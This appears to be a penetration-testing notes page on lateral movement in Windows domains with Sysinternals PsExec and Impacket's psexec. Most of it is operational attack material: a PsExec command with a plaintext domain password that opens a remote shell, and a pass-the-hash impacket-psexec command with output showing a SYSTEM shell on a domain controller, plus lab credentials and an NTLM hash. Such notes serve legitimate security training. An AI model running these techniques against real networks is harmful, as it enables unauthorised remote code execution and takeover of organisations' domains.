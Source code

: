 ```yaml
---
description: PsExec is a very versatile tool that is part of the SysInternals Suite.
---
```


# PsExec

{% embed url="https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite" %}



## Prerequisites

In order to use PsExec for lateral movement the following conditions must be met:

* SysInternals Tools Installed on System.
* The user is apart of the Local Administrator group.
* _ADMIN$_ share must be available and File and Printer Sharing has to be turned on.



### Lateral Movement

```powershell
PS C:\Tools\SysinternalsSuite> ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
FILES04

C:\Windows\system32>whoami
corp\jen
```



## Impacket-Psexec

We can use Impacket on our Kali host to connect via PsExec.

### Pass The Hash

```shell
kali@kali:~$ proxychains -q impacket-psexec -hashes 00000000000000000000000000000000:f0397ec5af49971f6efbdb07877046b3 beccy@172.16.6.240
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 172.16.6.240.....
[*] Found writable share ADMIN$
[*] Uploading file CGOrpfCz.exe
[*] Opening SVCManager on 172.16.6.240.....
[*] Creating service tahE on 172.16.6.240.....
[*] Starting service tahE.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.1006]
(c) Microsoft Corporation. All rights reserved.


C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
DCSRV1

C:\Windows\system32> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.6.240
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.6.254
```



### Plaintext Password

```shell-session
kali@kali:~$ proxychains -q impacket-psexec beccy@172.16.6.240
```
